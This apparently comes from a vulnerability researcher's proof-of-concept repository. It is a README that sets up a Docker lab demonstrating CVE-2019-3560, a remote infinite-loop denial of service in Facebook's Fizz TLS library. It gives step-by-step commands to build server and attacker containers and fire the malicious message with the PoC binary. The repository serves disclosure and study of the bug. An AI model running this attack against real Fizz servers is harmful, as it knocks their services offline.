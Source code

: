 # Remote DOS in Facebook Fizz (CVE-2019-3560)

[Fizz](https://github.com/facebookincubator/fizz) contains a remotely triggerable infinite loop. It is due to an integer overflow in this [compound assignment](https://github.com/facebookincubator/fizz/blob/eaa81af854bef509c3c1d7c83df0cd0b084a0fef/fizz/record/PlaintextRecordLayer.cpp#L42). For more details about the bug, see this [blog post](https://securitylab.github.com/research/facebook-fizz-CVE-2019-3560).

The scenario for the demo is that there are two computers, named "fizz-server" and "fizz-attacker". The attacker sends a malicious message which triggers an infinite loop on the server. The demo uses [docker](https://www.docker.com/) to simulate the two computers. See below for instructions.

## Network setup

Create a docker network bridge, to simulate a network with two separate computers.

```
docker network create -d bridge --subnet 172.18.0.0/16 fizz-demo-network
```

## Server setup

Build the docker image:

```
docker build server -t fizz-server --build-arg UID=`id -u`
```

Start the container:

```
docker run --rm --network fizz-demo-network --ip=172.18.0.10 -i -t fizz-server
```

If you want to be able to debug the fizz server, then you need to start the container with some extra command line arguments:

```
docker run --rm --network fizz-demo-network --ip=172.18.0.10 --cap-add=SYS_PTRACE --security-opt seccomp=unconfined -i -t fizz-server
```

Inside the container, run this script to create some certs:

```
cd ~/certs
./create-certs.sh
```

Start the server:

```
~/fizz/build_/bin/fizz server -accept 1443 -cert ~/certs/server-cert.pem -key ~/certs/server-key.pem
```

Note: TLS servers normally listen on port 443, rather than 1443. But root privileges are required to listen on 443, so you need to run the above command with `sudo` if you want to change the port number to 443. The `sudo` password in this docker container is "x".

## Attacker setup

Build the docker image:

```
docker build attacker -t fizz-attacker --build-arg UID=`id -u`
```

Start the container:

```
docker run --rm --network fizz-demo-network --ip=172.18.0.11 -i -t fizz-attacker
```

Send the malicious message to the server:

```
./poc/poc 172.18.0.10 1443
```

The source code for the PoC can be found in `poc.c`.

### Original PoC

The original PoC, which I sent to Facebook when I first reported the vulnerability, is far less polished than `poc.c`, above. But it may be of interest because it shows how I tweaked the Fizz client to send the malicious message. The changes which I made can be found in `diff.txt`. (These changes were already applied during the `docker build` step, above.) You can run this version of the PoC like this:

```
~/fizz/build_/bin/fizz client -connect 172.18.0.10:1443
```

This command will not return because it is waiting for a response from the server, which will never come. But you can just ctrl-C it, and the server will continue to be stuck in an infinite loop.
